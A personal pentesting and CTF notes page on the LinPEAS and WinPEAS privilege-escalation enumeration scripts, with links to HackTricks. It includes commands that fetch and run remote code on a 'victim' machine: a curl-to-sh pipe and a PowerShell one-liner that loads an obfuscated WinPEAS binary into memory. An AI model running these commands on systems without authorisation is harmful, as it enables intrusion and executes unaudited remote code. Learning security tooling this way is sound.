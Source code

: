 ```yaml
---
Created:  '2021-08-17 08:29:36 +01:00'
Modified: '2021-08-17 08:29:36 +01:00'
---
```


| Tags: #tools #ctf #pentesting #infosec #kali #windows |
| -------------------------------------------- |

---

> # Key Takeaways / Things to Remember
> 
> Main supporting resource is full of great info:
> [HackTricks](https://book.hacktricks.xyz/)

---



# LinPEAS & WinPEAS

Some automated enumeration of Linux and Windows hosts.
([CTF Katana](https://github.com/JohnHammond/katana) is similar)

Detailed documentation about a lot of the potential exploits is here: https://book.hacktricks.xyz/
The script will attempt to highlight parts of the output which might be vulnerable to escalation attacks. The documentation above can help with understanding the specific vulnerability.

## [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
Various other methods of getting it onto a victim machine depending on how secure it is.

Can be downloaded from github and run with:
```bash
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh >linpeas.out
less -R linpeas.out
```

Or can be piped directly into `sh` without saving script on system with:
```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```

---
## WinPEAS
Again, various options for getting and running on target machine (exe, bat, obfuscated, ...).

One liner to download and execute `winPEASany` from memory in a PS shell:
```powershell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASany.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

<br>
Load from disk in memory and execute:

```powershell
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS.exe")));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use
```
---


| Sources:                                |
| --------------------------------------- |
| https://github.com/carlospolop/PEASS-ng |
| https://book.hacktricks.xyz/ |